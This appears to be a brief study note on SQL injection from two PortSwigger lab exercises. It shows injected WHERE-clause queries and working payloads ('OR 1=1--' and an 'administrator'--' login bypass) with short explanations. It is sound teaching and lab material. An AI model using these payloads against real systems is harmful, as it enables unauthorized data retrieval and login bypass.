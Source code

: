 # SQL Injections

## Where clause allowing retrieval of data

A SQL injection may start with ' or at least in the burp suite labs the single quote is required.

The where statement is executed succesfully, after injecting the payload the released flag is ignored; this returns all of the products regardless of its' release status.

Code:
`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`<br>
`SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1`

Payload:<br>
`filter?category=Gifts'+OR+1=1--`<br>
'+OR+1=1--

Credit:<br>
[SQL retrieve data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

## Login bypass
Explantation:<br>
This payload is a more simple to understand. The username and password are used as variables in the SQL query. <br>If an application does not validiate/sanitize the input an attacker can inject their own SQL and bypass. We bypass the login by removing the password requirement.<br>

Code:
`SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'`<br>
`SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`<br>
Payload:
`username=administrator%27--&password=hello`<br>
Username field = "adminstrator'--"<br>
[SQL Login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)
